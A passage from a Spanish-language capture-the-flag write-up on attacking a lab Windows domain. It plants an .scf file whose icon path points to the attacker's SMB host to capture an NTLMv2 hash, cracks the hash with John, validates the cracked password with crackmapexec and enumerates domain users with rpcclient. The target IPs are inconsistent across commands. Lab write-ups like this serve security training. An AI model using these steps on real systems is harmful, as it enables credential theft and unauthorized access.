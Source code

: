     ```bash
    cd /mnt/smb/Users/Public
    nano file.scf

    [Shell]
    Command=2
    IconFile=\\10.10.16.3\smbFolder\pentestlab.ico
    [Taskbar]
    Command=ToggleDesktop
    ```

1. Esperamos un momentito

Ya vemos que una conexion se a establecida y vemos un hash NTLM de version 2 para el usuario amanda.

### Crackeamos el hash con john {-}

Copiamos el hash en un fichero y intentamos crackearlo con John

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt amanda_hash
```

ya tenemos una credencial para el usuario amanda.

Checkeamos la validez de esta credencial con **crackmapexec**

```bash
crackmapexec smb 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

Vemos que es valida pero no nos podemos conectar porque ne esta el famoso **Pwn3d**

### Enumeracion de usuarios con rpcclient {-}

```bash
rpcclient -U "amanda%Ashare1972" 10.10.10.10 -c 'enumdomusers'
rpcclient -U "amanda%Ashare1972" 10.10.10.10 -c 'enumdomgroups'
# get the rid of domain admins -> 0x200 in this example
rpcclient -U "amanda%Ashare1972" 10.10.10.10 -c 'querygroupmem 0x200'
# get the rid of the users -> 0x1f4 for example
rpcclient -U "amanda%Ashare1972" 10.10.10.10 -c 'queryuser 0x1f4'
```

Nos creamos una lista de usuario desde rpcclient

```bash
cd content
rpcclient -U "amanda%Ashare1972" 10.10.10.161 -N -c "enumdomusers" 
rpcclient -U "amanda%Ashare1972" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' 
rpcclient -U "amanda%Ashare1972" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v 
rpcclient -U "amanda%Ashare1972" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]'
rpcclient -U "amanda%Ashare1972" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > users.txt
```
